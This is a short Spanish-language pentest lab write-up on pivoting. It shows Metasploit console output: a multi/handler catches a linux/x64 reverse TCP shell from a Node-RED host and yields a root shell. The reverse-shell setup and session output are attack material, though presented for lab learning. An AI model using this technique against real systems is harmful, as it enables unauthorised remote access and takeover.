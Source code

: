 # Pivoting 
### Port Forwarding

Utilizaremos meterpreter para ganar una session desde nodered. Para esto tenemos que abrir un handler con un payload `linux/x64/shell/reverse_tcp`

{% highlight bash %}
msf exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (linux/x64/shell/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.14      yes       The listen address (an interface may be specified)
   LPORT  9002             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.14:9002 
[*] Sending stage (38 bytes) to 10.10.10.94
[*] Command shell session 1 opened (10.10.14.14:9002 -> 10.10.10.94:44602) at 2018-07-27 06:33:58 -0400

/bin/sh: 0: can't access tty; job control turned off
{% endhighlight %}

{% highlight bash %}
# id
/bin/sh: 1: j^H��j!Xu�j: not found
/bin/sh: 1: X�H�/bin/shSH��RWH��id: not found
# id
uid=0(root) gid=0(root) groups=0(root)
# ^Z
Background session 1? [y/N]  y
msf exploit(multi/handler) >
{% endhighlight %}


[nmap]: https://github.com/nmap/nmap
[nodered]: https://quentinkaiser.be/pentesting/2018/09/07/node-red-rce/